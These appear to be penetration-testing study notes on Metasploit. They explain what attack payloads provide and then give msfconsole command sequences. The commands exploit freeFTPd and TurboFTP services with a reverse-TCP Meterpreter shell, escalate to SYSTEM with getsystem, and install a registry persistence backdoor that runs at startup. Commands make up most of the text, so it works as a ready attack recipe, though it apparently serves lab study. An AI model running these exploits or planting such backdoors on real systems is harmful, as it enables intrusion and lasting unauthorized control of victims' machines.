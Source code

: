 A payload is used by an attacker to get:
- An OS Shell.
- A VNC or RDP connection.
- A Meterpreter shell.
- The execution of an attacker-supplied application.

A special payload, with many useful features under the penetration testing point  of view is `meterpreter`.

```bash
service postgresql start
msfconsole
> help
> show -h
> search <searchterm> # search for a specific module by using the search cmd
> search skeleton
> search turboftp
> show exploits # impractical to use
> use exploit/windows/ftp/turboftp_port # to use exploit for turboftp
> info
> show options
> back
> show payloads
> set payload windows/meterpreter/reverse_tcp
> exploit
```

```bash
# Exploit freeftpd
> use exploit/windows/ftp/freeftpd_pass
> set ftpuser anonymous
> set rhosts 192.168.99.12
> set rport 21
> set payload windows/meterpreter/reverse_tcp
> set exitfunc process
> set lhost 192.168.99.100
> set lport 4444
> exploit
# Get user
> getuid
# Obtain System privileges on the machine
> getsystem
```

```bash
# Set backdoor
use exploit/windows/local/persistence
set reg_name backdoor
set exe_name backdoor
set startup SYSTEM
set session 1
set payload windows/meterpreter/reverse_tcp
set exitfunc process
set lhost 192.168.99.100
set lport 5555
set DisablePayloadHandler false
exploit //if the backdoor doesn't start immediately, use "exploit -j" instead
```
